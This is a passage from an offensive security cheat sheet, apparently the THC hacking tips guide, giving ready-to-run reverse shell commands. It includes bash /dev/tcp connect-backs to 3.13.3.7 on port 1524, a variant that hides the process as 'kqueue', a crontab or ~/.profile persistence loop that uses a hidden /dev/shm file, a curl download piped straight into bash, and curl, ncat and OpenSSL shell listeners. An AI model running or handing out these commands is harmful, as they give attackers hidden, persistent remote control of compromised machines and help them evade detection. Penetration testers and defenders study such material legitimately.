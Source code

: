 On the remote system, this command will connect back to your system (IP = 3.13.3.7, Port 1524) and give you a shell prompt:
```sh
# If the current shell is Bash already:
(bash -i &>/dev/tcp/3.13.3.7/1524 0>&1 &) 
# If the current shell is NOT Bash then we need:
bash -c '(exec bash -i &>/dev/tcp/3.13.3.7/1524 0>&1 &)'
# or hide the bash process as 'kqueue'
bash -c '(exec -a kqueue bash -i &>/dev/tcp/3.13.3.7/1524 0>&1 &)'
```

Alternatively, on the remote system, put this into the `~/.profile` or crontab to re-start the connect-back shell (and also stiops multiple intances from being started):

```sh
fuser /dev/shm/.busy &>/dev/null || (bash -c 'while :; do touch /dev/shm/.busy; exec 3</dev/shm/.busy; bash -i &>/dev/tcp/3.13.3.7/1524 0>&1; sleep 360; done' &>/dev/null &)
```

<a id="curlshell"></a>
**5.i.c. Reverse shell with cURL (encrypted)**

Use [curlshell](https://github.com/SkyperTHC/curlshell). This also works through proxies and when direct TCP connection to the outside world is prohibited:
```sh
# On YOUR workstation
# Generate SSL keys:
openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -sha256 -days 3650 -nodes -subj "/CN=THC"
# Start your listening server:
./curlshell.py --certificate cert.pem --private-key key.pem --listen-port 8080
```
```sh
# On the target:
curl -skfL https://3.13.3.7:8080 | bash
```

<a id="curltelnet"></a>
**5.i.d Reverse shell with cURL (cleartext)**

Start ncat to listen for multiple connections:
```sh
ncat -kltv 1524
```
```sh
# On the target:
C="curl -Ns telnet://3.13.3.7:1524"; $C </dev/null 2>&1 | sh 2>&1 | $C >/dev/null
```

<a id="sslshell"></a>
**5.i.e. Reverse shell with OpenSSL (encrypted)**

```sh
# On YOUR workstation:
# Generate SSL keys:
openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -sha256 -days 3650 -nodes -subj "/CN=THC"
# Start your listening server:
openssl s_server -port 1524 -cert cert.pem -key key.pem
# Or pwncat:
# pwncat -lp 1524 --ssl
```
